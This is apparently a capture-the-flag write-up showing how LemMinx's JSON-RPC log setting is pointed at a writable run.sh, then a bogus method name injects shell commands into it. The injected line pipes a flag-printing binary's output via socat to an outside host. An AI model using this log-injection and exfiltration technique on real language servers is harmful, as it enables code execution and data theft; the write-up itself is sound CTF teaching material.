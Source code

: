 LemMinx is started for each connection from `/home/ctf/.../run.sh`, which is writable.

We do an `initialize` call to make LemMinx start writing it's logs to `run.sh`:

```python
call('initialize', {
    'rootUri': 'file:///tmp',
    'initializationOptions': {
        'settings': {
            'xml': {
                "logs": {
                    "client": True,
                    "file": "/proc/self/cwd/run.sh"
                },
            },
        },
    },
    'capabilities': { # probably not needed, leftover from past experimentation
        'executeCommand': {
            'dynamicRegistration': True,
        },
    },
})
```

Then call a non-existent JSON-RPC endpoint to pollute `run.sh` with our code:

```python
call('aaaa\n/printflag | socat - tcp:your.super.secret.public.ip.box.com:1337\n\nbbbb',{})
```

There are several ways to get a newline and an arbitrary string into `run.sh`, but the above
also avoids printing any `(` characters, which would trip up the shell.

Then we disconnect and connect again to execute `/printflag`.
